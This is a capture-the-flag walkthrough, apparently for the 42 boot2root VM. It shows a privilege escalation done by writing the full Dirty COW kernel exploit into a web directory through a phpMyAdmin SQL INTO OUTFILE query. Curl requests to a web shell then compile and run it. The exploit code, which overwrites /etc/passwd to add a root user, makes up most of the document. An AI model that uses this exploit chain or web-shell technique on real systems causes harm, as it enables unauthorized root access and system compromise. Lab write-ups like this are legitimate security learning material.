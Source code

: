 Need to do steps from [Main Way](https://github.com/MrOnimus/42_boot2root/blob/master/writeup1.md) to stage after access to cmd throgh get request.

After this need to run SQL command in phpmyadmin:
```
SELECT  '#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = \"/etc/passwd\";
const char *backup_filename = \"/tmp/passwd.bak\";
const char *salt = \"firefart\";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo {
   char *username;
   char *hash;
   int user_id;
   int group_id;
   char *info;
   char *home_dir;
   char *shell;
};

char *generate_password_hash(char *plaintext_pw) {
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u) {
  const char *format = \"%s:%s:%d:%d:%s:%s:%s\\n\";
  int size = snprintf(NULL, 0, format, u.username, u.hash,
    u.user_id, u.group_id, u.info, u.home_dir, u.shell);
  char *ret = malloc(size + 1);
  sprintf(ret, format, u.username, u.hash, u.user_id,
    u.group_id, u.info, u.home_dir, u.shell);
  return ret;
}

void *madviseThread(void *arg) {
  int i, c = 0;
  for(i = 0; i < 200000000; i++) {
    c += madvise(map, 100, MADV_DONTNEED);
  }
  printf(\"madvise %d\\n\\n\", c);
}

int copy_file(const char *from, const char *to) {
  // check if target file already exists
  if(access(to, F_OK) != -1) {
    printf(\"File %s already exists! Please delete it and run again\\n\",
      to);
    return -1;
  }

  char ch;
  FILE *source, *target;

  source = fopen(from, \"r\");
  if(source == NULL) {
    return -1;
  }
  target = fopen(to, \"w\");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf(\"%s successfully backed up to %s\\n\",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[])
{
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = \"firefart\";
  user.user_id = 0;
  user.group_id = 0;
  user.info = \"pwned\";
  user.home_dir = \"/root\";
  user.shell = \"/bin/bash\";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf(\"Please enter the new password: %s\\n\", plaintext_pw);
  } else {
    plaintext_pw = getpass(\"Please enter the new password: \");
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf(\"Complete line:\\n%s\\n\", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf(\"mmap: %lx\\n\",(unsigned long)map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
    int u, i, o, c = 0;
    int l=strlen(complete_passwd_line);
    for(i = 0; i < 10000/l; i++) {
      for(o = 0; o < l; o++) {
        for(u = 0; u < 10000; u++) {
          c += ptrace(PTRACE_POKETEXT,
                      pid,
                      map + o,
                      *((long*)(complete_passwd_line + o)));
        }
      }
    }
    printf(\"ptrace %d\\n\",c);
  }
  else {
    pthread_create(&pth,
                   NULL,
                   madviseThread,
                   NULL);
    ptrace(PTRACE_TRACEME);
    kill(getpid(), SIGSTOP);
    pthread_join(pth,NULL);
  }

  printf(\"Done! Check %s to see if the new user was created.\\n\", filename);
  printf(\"You can log in with the username \'%s\' and the password \'%s\'.\\n\\n\",
    user.username, plaintext_pw);
    printf(\"\\nDON\'T FORGET TO RESTORE! $ mv %s %s\\n\",
    backup_filename, filename);
  return 0;
}' INTO OUTFILE '/var/www/forum/templates_c/exploit.c'
FIELDS TERMINATED BY '\t' ENCLOSED BY '' ESCAPED BY ''
LINES TERMINATED BY '\r\n' STARTING BY '

```

It's dirtycow epxploit **https://www.exploit-db.com/exploits/40839**.
I change symbols for correct sql format with http://www.unit-conversion.info/texttools/replace-text/
(Replace " -> \", ' -> \', \n -> \\n)

And set with help https://stackoverflow.com/questions/5268088/extra-backslash-when-select-into-outfile-in-mysql
```
LINES TERMINATED BY '\r\n'
ESCAPED BY ''
```
because lines end with '\' symbol and I couldn't compile file and escaped symboles conflict with each other.


After that compile and run exploit with:
```
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=gcc%20-pthread%20exploit.c%20-o%20exploit%20-lcrypt"
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=ls" //check if it correct compile
curl --insecure "https://192.168.56.102/forum/templates_c/hack.php?cmd=./exploit%20123"
```

And we have firefart user which is root. But I don't now how log in because su or su -c can't get passwd as argument
